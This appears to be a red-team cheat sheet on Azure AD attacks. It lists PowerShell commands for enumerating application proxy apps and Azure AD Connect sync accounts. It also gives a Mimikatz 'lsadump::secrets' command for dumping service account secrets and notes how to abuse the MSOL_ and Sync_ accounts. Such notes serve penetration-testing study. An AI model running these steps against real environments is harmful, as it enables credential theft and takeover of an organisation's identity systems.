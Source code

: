 ## Application proxy abuse
- The application behind the proxy may have vulnerabilities to access the on-prem environment.
#### Enumerate application which has a application proxy configured
```
Import-Module .\AzureAD.psd1
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
```

#### Get the Service Principal (use the application name)
```
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "<APPLICATION NAME>"} 
```

#### Find user and groups assigned to the application
```
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT ID OF SERVICE PRINCIPAL>
```

#### Extract secrets of service account
- After compromising the application
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

# On-Prem --> Azure AD
## Azure AD Connect
- Check if there is an account name with `MSOL_<INSTALLATION ID>`. This user has DCSYNC rights. (or `AAD_` if installed on a DC)
- Command to check if AD connect is installed on the server `Get-ADSyncConnector`

## Password Hash Sync (PHS) Abuse
- Account with `SYNC_` is created in Azure AD and can reset any users password in Azure AD.
- Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed and it is possible to extract them in clear-text if you have admin privileges on the server.

#### Enumerate server where Azure AD is installed (on prem command)
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

#### Enumerate server where Azure AD is installed (Azure command)
```
Import-Module .\AzureAD.psd1
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

